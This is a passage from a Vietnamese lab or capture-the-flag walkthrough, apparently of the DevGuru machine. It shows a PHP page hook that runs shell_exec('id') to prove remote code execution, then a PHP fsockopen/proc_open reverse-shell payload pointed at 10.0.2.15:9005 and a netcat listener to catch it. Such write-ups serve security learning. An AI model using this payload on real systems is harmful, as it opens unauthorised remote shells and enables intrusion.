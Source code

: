 ```php
<?php

function onStart() {
    echo shell_exec('id');
}
```

`onStart` sẽ được gọi mỗi khi trang được load

![poc](/assets/img/posts/devguru/poc.PNG)

Vậy là đã test RCE thành công, ta có thể chạy lệnh bất kì tại đây. Tạo payload reverse shell rồi chạy thôi, ở đây mình dùng PHP proc_open payload được generate từ [revshell.com](https://www.revshells.com/){:target="\_blank"}.

```php
$sock=fsockopen("10.0.2.15",9005);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Đồng thời tạo 1 netcat listener để lắng nghe kết nối.

```shell
$ nc -lnvp 9005
listening on [any] 9005 ...

```
